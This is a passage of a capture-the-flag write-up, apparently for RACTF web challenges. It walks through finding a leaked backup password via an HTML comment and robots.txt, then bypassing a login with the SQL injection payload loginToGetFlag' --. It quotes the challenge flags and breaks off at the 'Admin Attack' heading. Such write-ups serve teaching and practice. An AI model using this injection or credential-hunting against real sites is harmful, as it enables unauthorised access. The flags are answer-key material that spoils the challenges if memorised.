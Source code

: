 In source of the page `http://url`, we can read:
``` html
<!--
    In case I forget: Backup password is at ./backup.txt
-->
```

But the file` http://url/backup.txt` unexist

However, there is a `robots.txt` file:
```
User-Agent: *
Disallow: /admin
Disallow: /wp-admin
Disallow: /admin.php
Disallow: /static
```

And in `static` directory, there is the file `backup.txt` (`http://url/static/backup.txt`):
```
develop    developerBackupCode4321

Make sure to log out after using!

TODO: Setup a new password manager for this
```

The flag is: `ractf{developerBackupCode4321}`

## Baiting
```
That user list had a user called loginToGetFlag. Well, what are you waiting for?
```

We have to log in with unername `loginToGetFlag` but we can't guess the password, so we must try SQL injection

With `'` as username, the website return an error page:
``` python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 130, in index
    cur.execute("SELECT algo FROM users WHERE username='{}'".
format(sqlite3.OperationalError: unrecognized token: "'''"
```

Here the SQL query is `SELECT algo FROM users WHERE username=''' [...]` and crash because an `'` isn't closed

With `loginToGetFlag' --` as username, the query is `SELECT algo FROM users WHERE username='loginToGetFlag' -- ' [...]`

It select the user `loginToGetFlag` and ignore the end of the query after `--`

Finally, we are logged as `loginToGetFlag` and we can read the flag: `ractf{injectingSQLLikeNobody'sBusiness}`

## Admin Attack
```
Looks like we managed to get a list of users.
That admin user looks particularly interesting, but we don't have their password.
Try and attack the login form and see if you can get anything.
```

